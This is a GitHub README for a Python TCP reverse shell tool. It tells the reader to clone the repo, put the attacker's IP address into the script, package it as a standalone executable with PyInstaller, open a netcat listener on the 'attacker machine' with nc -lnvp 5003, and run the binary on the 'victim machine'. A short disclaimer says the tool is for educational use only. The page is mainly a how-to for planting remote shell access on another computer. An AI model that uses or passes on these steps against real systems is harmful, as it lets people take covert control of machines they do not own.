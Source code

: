 ![version](https://img.shields.io/badge/Version-1.0.7-informational?style=flat&logo=&logoColor=white&color=red) ![stars](https://img.shields.io/github/stars/Keyj33k/ReverseShell?style=social) ![forks](https://img.shields.io/github/forks/Keyj33k/ReverseShell?label=Forks&logo=&logoColor=white&color=blue) ![languages](https://img.shields.io/github/languages/count/Keyj33k/ReverseShell?style=social&logo=&logoColor=white&color=blue) ![issues](https://img.shields.io/github/last-commit/Keyj33k/ReverseShell?style=flat&logo=&logoColor=white&color=blue) ![platform](https://img.shields.io/badge/Platform-Linux-informational?style=flat&logo=&logoColor=white&color=green) 

# Reverse Shell :snake:
- A python3 tcp reverse shell.

### Bash Remote Access Made Easy

---

![revsh](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/backd_profile.jpeg)

### :question: How to use this reverseshell? 

---

- 1 ) Clone the repo:
```
git clone https://github.com/Keyj33k/ReverseShell.git
```
- 2 ) Now you need to navigate to the ReverseShell directory.
```
cd ReverseShell
```
- You will find a file called reverseshell.py:

### :wrench: You need to change the ipv4 address in the script:
---
![exa](https://github.com/Keyj33k/profiles/blob/main/profile/revshell.png?raw=true)
---
- 3 ) This reverse shell needs requirements you need to install:
```
pip install -r requirements.txt
```
- 4 ) Build an executable using this command:
```
pyinstaller --onefile reverseshell.py
```
- PyInstaller command not found?
```
pip install pyinstaller
```
### :sparkles: If the steps above are done:

---

- On the attacker machine:
```
nc -lnvp 5003
```
- NC command not found (Debian/-based)?
```
sudo apt-get install -y netcat
```

- On the victim machine:
```
./reverseshell
```
### :gem: Explained:

---

![listener](https://raw.githubusercontent.com/Keyj33k/profiles/main/profile/reverseshell.jpeg)

# :warning: Note:
- This tool is for educational and ethical purposes only. 
- I'm not responsible for your actions. 
- Don't hack anyone without their permissions.
- With great force follows great responsibility.

---
  
- Tested on 5.18.0-kali3-amd64, 5.15.0-41-generic-Ubuntu
  
---


